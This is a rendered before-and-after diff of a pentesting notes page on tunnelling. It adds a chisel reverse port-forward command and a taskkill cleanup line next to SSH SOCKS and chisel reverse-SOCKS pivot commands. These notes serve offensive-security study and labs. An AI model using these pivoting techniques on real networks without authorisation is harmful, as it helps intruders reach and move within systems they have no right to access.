

Before and after one commit to SkinnyRat/Cybersecurity, a Markdown page: tunnelling/tunnelling.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/tunnelling/tunnelling.md
+++ b/tunnelling/tunnelling.md
@@ -456,6 +456,10 @@ tmux new -s pivot
 ssh -N -D 9999 {{USERNAME}}@<DEEP_IP> \
     -o ServerAliveInterval=60 -o ServerAliveCountMax=3 -o ExitOnForwardFailure=yes
 chisel client {{LHOST}}:8080 R:socks --keepalive 25s   # chisel's own keepalive
+.\chisel.exe client {{LHOST}}:8080 R:80:{{TARGET_IP}}:80
+
+# To kill strays:
+taskkill /F /IM chisel.exe /IM chisel1.exe /T
 ```
 
 **Auto-reconnect** — for long/unattended pivots that must ride out blips:
````
Also changed, not shown: active/1-foothold.md (+2 -0 lines), active/2-harvest.md (+1 -0 lines).
